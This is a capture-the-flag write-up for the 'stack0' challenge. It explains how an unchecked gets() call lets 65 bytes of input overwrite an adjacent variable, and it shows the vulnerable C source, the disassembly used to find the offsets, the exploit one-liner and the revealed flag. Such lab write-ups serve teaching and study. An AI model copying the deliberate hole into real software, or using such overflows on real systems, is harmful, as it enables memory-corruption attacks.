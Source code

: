 # stack0
###### Writeup by Tim Winters

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  FILE *fp;

  modified = 0;
  gets(buffer);
  fp  = fopen("./flag.txt", "r");

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
  } else {
      printf("Try again?\n");
  }
}
```
The problem is this challenge is a simple one. `modified` is set to `0`, yet is checked on line 15 to be something else. A standard buffer overflow.

The vulnerability is with `gets`, which reads input from standard in, but does no bounds checking. We can use this to write past the memory region allocated to `buffer`, and overwrite the value of `modified`. To determine how many bytes we need to write we must look at this disassembly code. 

<pre>
   0x080484eb <+0>:		lea    ecx,[esp+0x4]
   0x080484ef <+4>:		and    esp,0xfffffff0
   0x080484f2 <+7>:		push   DWORD PTR [ecx-0x4]
   0x080484f5 <+10>:	push   ebp
   0x080484f6 <+11>:	mov    ebp,esp
   0x080484f8 <+13>:	push   ecx
   0x080484f9 <+14>:	sub    esp,0x54
   0x080484fc <+17>:	mov    DWORD PTR [ebp-0x10],0x0
   0x08048503 <+24>:	sub    esp,0xc
   <font color="red">0x08048506 <+27>:	  lea    eax,[ebp-0x50]</font>
   0x08048509 <+30>:	push   eax
   0x0804850a <+31>:	call   0x8048390 &ltgets@plt&gt
</pre>

Calling conventions for Intel x86 say that any arguments will be pushed on the stack. Before the call to `gets` at `main + 31`, the address `epb-0x50` is loaded into `eax` and then pushed onto the stack. Therefore we know that `buffer` starts at address `ebp-0x50`, but I'll use `0x50` for the rest of this guide. 

Now that we know where the buffer is, we need the address of `modified`. Examining the assembly code further

<pre>
   0x0804850f <+36>:	add    esp,0x10
   0x08048512 <+39>:	sub    esp,0x8
   0x08048515 <+42>:	push   0x8048610
   0x0804851a <+47>:	push   0x8048612
   0x0804851f <+52>:	call   0x80483d0 <fopen@plt>
   0x08048524 <+57>:	add    esp,0x10
   0x08048527 <+60>:	mov    DWORD PTR [ebp-0xc],eax
   <font color="red">0x0804852a <+63>:	  mov    eax,DWORD PTR [ebp-0x10]</font>
   0x0804852d <+66>:	test   eax,eax
   0x0804852f <+68>:	je     0x804856b <main+128>
</pre>

Here we see that `ebp - 0x10` (`0x10`) is put into `eax`, then checked to see if it is non-zero through the `test` instruction. More info on that [here](https://reverseengineering.stackexchange.com/questions/19235/purpose-of-test-eax-eax-after-a-strcmp). This must be our `modified` variable. 

Some quick math of `0x50 - 0x10` = `0x40` = `64`. Therefore, we need 64 bytes of data before we start overwriting the `modified` variable. Becaue it need only be non-zero, just writing one byte will work. 

```
> python -c 'print "a"*65' | ./stack0

you have change the 'modified' variable
flag: 3ecc94ee2ad17bf3a32757d1900948bc
```